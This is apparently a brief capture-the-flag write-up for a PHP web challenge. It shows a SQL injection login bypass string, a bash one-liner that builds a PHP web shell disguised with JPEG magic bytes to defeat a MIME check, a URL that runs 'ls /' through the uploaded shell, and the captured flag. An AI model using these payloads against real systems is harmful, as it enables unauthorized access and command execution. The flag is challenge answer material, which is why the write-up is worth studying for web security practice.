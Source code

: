 ```yaml
---
created: 2024-08-03T22:15
updated: 2024-08-03T22:25
tags:
  - php
  - mime
---
```


## login

Login bypass with naïve SQL injection.

```
kumo' or '1'='1
```

## upload

Bypass hypothetical mime type check via magic bytes.

Referenced [magic.mime)](https://github.com/waviq/PHP/blob/master/Laravel-Orang1/public/filemanager/connectors/php/plugins/rsc/share/magic.mime)

```
# JPEG images
0	beshort		0xffd8		image/jpeg
```

```bash
echo -e '\xff\xd8<?php system($_GET['cmd']); ?>' > payload.jpg.php
```

## exploit

[188.166.252.88:1810/upload/bd50ad821429b24a932ec1fa5bfc65c1/payload.png.php?cmd=ls /](http://188.166.252.88:1810/upload/bd50ad821429b24a932ec1fa5bfc65c1/payload.png.php?cmd=ls%20/)
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722738101/2024/08/c8e388ba9b17413494cbaa7025c7db4c.png)

```flag
MSEC{s0me_T1me_I_w1sh_I4m_aC@t_noW0rk_noDeAdl1ne_JustMe0oow}
```

Not sure where is P1.